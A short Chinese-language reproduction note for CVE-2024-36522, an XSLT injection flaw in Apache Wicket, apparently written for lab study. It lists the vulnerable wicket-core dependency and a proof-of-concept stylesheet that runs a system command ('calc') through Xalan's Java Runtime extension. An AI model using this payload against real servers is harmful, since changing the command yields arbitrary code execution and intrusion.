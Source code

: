 ![QQ_1730882614264](images/7.png)

当读取文件时

![QQ_1730882636543](images/8.png)

# Apache Wicket XSLT漏洞复现

漏洞编号：CVE-2024-36522

复现环境：jdk11

## 环境搭建

导入依赖

```
<dependency>
    <groupId>org.apache.wicket</groupId>
    <artifactId>wicket-core</artifactId>
    <version>9.16.0</version>
</dependency>
```

## 漏洞复现

创建一个poc.xml

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
        <xsl:variable name="rtobject" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtobject,'calc')"/>
        <xsl:variable name="processString" select="ob:toString($process)"/>
        <xsl:value-of select="$processString"/>
    </xsl:template>
</xsl:stylesheet>
```
